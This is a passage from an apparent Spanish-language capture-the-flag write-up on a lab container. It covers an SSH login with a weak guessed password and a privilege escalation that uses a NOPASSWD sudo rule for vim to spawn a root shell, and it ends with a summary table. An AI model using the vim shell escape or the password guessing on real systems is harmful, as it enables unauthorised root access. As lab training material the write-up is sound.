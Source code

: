 Probamos:

```bash
ssh russoski@172.17.0.2
Contraseña: iloveme
```

¡Acceso exitoso!

# Escalada de privilegios (de usuario a root)

Realizamos un sudo -l

```bash
russoski@d97f456bcdcb:~$ sudo -l
Matching Defaults entries for russoski on d97f456bcdcb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User russoski may run the following commands on d97f456bcdcb:
    (root) NOPASSWD: /usr/bin/vim

```

`russoski` puede ejecutar **vim como root sin contraseña**.

Esto es extremadamente peligroso, ya que vim permite ejecutar comandos de shell.

### Escalada:

Ejecutamos el siguiente comando

```bash
russoski@d97f456bcdcb:~$ sudo /usr/bin/vim vim -c ':!/bin/sh'

# whoami
root
```

Se obtiene **shell como root** al instante.


# Conclusion Final

|Paso|Resultado clave|
|---|---|
|Acceso anónimo a FTP|Archivos con pistas clave: nombre de usuario, hints|
|Enumeración web|Archivos ocultos con info crítica (usuario)|
|Brute force lógico|Contraseña débil basada en el ego del usuario|
|Escalada de privilegios|Configuración peligrosa de `vim` en sudo sin contraseña|
## Lecciones aprendidas
